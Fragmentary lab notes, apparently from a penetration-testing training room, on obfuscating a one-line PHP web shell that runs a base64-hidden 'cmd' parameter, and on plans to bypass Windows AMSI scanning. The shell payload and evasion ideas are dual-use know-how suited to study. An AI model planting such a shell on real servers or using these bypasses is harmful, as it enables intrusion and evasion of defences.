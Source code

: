 
Let's 1st try what we have learnt in wreath network and if it doesn't work will learn what they are teaching us.

Let's try this obfuscation
https://www.gaijin.at/en/tools/php-obfuscator
```
<?php system($_GET[base64_decode('Y21k')]);?>
```


As i was going through this Php obfuscation won't work so will have to learn something on the lines of either updating amsi.dll or obfuscate it aka AMSIception.


